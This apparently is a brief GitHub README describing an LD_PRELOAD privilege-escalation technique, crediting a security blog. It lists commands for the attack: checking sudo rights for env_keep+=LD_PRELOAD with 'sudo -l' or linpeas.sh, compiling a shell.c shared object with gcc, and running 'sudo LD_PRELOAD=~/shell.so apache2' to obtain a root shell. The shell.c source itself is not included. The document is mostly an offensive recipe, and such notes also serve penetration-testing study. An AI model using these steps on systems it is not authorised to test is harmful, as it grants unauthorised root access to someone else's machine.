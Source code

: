 # LD_Preload_PrivEsc
LD_Preload PrivEsc found on @johnjhacking blog (https://johnjhacking.com)

#### Check for env_keep+=LD_PRELOAD
sudo -l or linpeas.sh

#### Compile the shell.c code
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#### Add shell.so to LD_PRELOAD
sudo LD_PRELOAD=~/shell.so apache2
